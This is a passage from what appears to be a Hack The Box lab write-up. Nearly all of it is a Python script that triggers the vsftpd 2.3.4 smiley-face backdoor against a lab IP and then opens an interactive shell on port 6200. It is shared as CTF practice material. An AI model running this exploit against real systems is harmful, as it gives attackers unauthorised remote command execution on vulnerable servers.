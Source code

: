 I actually wrote a python script for this exploit back on [Lame](https://github.com/matale14/Writeups/blob/e8cd58ad034b80621e68718201874790499b59dc/HTB/Lame/Lame.MD)

Here it is:

```
import socket, threading

def exploit():

        #Set up connection
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        #connect to the ftp server
        s.connect(('10.129.106.229',21))
        #send the username and password
        s.send(b'USER hello:)\n')
        s.send(b'PASS secret\n')

        #Set up Backdoor connection
        bd = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        #Connect to backdoor
        bd.connect(('10.129.106.229', 6200))
        bd_status = True

        #Setup the thread 
        shell_recv_thread = threading.Thread(target=shellSendResponse, args=(bd, bd_status))
        shell_recv_thread.start()

        while 1:
                #enter command
                command = input().strip()
                #Exit clause
                if command == 'exit':
                        bd_status = False
                        bd.close()
                        shell_recv_thread.join()
                        sys.exit(0)
                #send command
                bd.send((command + '\n').encode())


def shellSendResponse(sock, status):
        #this function will print the information recieved continuously
        sock.settimeout(5)
        while status == True:
                try:
                        print(sock.recv(1024).strip().decode())
                except socket.timeout:
                        pass
                except Exception:
                        return

exploit()
```
